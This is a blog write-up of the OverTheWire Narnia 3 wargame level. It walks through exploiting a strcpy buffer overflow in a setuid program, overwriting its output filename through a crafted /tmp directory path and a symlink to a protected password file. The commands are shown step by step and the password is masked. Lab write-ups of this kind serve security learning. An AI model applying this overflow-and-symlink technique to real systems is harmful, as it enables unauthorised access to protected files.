 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 3 -> 4"
subtitle:   "Write-Up"
date:       2017-03-05 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
permalink: /:title/
category: Overthewire
---
```


<h1>Introduction</h1>

<p>Let's go back to another reverse engineering challenge from OverTheWire. Today we'll be dealing with a little different type of buffer overflow.  </p>

<h1>Challenge</h1>

<p>This time, we can start by firstly running the program. </p>

{% highlight text %}
narnia3@melinda:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
{% endhighlight %}

<p>But what can we see in the source code? </p>

{% highlight c %}
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }

        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
        }

        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

        /* close 'em */
        close(ifd);
        close(ofd);

        exit(1);
}
{% endhighlight %}

<p>This code may look complicated at first. But, after taking a closer look, we can see a potential buffer overflow vulnerability in <b>ifile</b> buffer, which is 32 bytes in size. </p>

<p>Because <b>strcpy()</b> does not perform any checks of the length of the input, if I give a file name longer than 32 bytes in length, I would be able to overwrite the <b>ofile</b> from <b>/dev/null</b> to another file. </p>

<p>It's known bug in the strcpy man pages: </p>

<p><i>If the destination string of a strcpy() is not large enough, then  anything  might  happen.   Overflowing  fixed-length  string  buffers is a favorite cracker technique for taking complete control of the  machine. Any  time  a  program  reads  or copies data into a buffer, the program first needs to check that there's enough space.  This may  be  unnecessary  if you can show that overflow is impossible, but be careful: programs can get changed over time, in ways that may make  the  impossible possible.</i></p>

<p>Firstly, I'm going to create a file in <b>/tmp</b> directory, where possibly, the password for the next level will end up.  </p>

{% highlight text %}
narnia3@melinda:~$ cd /tmp
narnia3@melinda:/tmp$ touch w3ndige
{% endhighlight %}

<p>Then, I'm going to use Python and calculate how long the directory should be, together with <b>/tmp/</b> beggining. We can also generate letters for our directory name. </p>

{% highlight python %}
>>> 32 - len("/tmp/")
27
>>> print("/tmp/" + "A"*27)
/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA
{% endhighlight %}

<p>Now, let's move on and create a directory. But because its name will only fulfill the buffer, we have to add another one, which will overwrite the buffer. </p>

{% highlight text %}
narnia3@melinda:/tmp$ mkdir AAAAAAAAAAAAAAAAAAAAAAAAAAW     
narnia3@melinda:/tmp$ cd AAAAAAAAAAAAAAAAAAAAAAAAAAW
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW$ mkdir tmp
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW$ cd tmp
{% endhighlight %}

<p>Now we can create a link using <b>ln</b> command on w3ndige file, to the password file. This means that when we cat the created file, it will actually cat the content of the password file “/etc/narnia_pass/narnia4”. We can also see, if it works, using <b>ls</b> command.  </p>

{% highlight text %}
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ ln -s /etc/narnia_pass/narnia4 ./w3ndige
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ ls -lh
total 0
lrwxrwxrwx 1 narnia3 narnia3 24 Feb 28 20:18 w3ndige -> /etc/narnia_pass/narnia4

{% endhighlight %}

<p>Now we have to pass this directory, as an argument, to the binary. Let's pray it works. </p>

{% highlight text %}
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ /narnia/narnia3 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp/w3ndige
copied contents of /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp/w3ndige to a safer place... (/tmp/w3ndige)
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ cat /tmp/w3ndige
**********
{% endhighlight %}

<p>And it worked, now we have the password! </p>

<h1>Conclusion</h1>
<p>Once gain thanks <a href="http://overthewire.org/wargames/">OverTheWire</a>! I'm definitely looking forward to new challenges from <b>Narnia</b>, as I'm getting more and more interested in reverse engineering. </p>
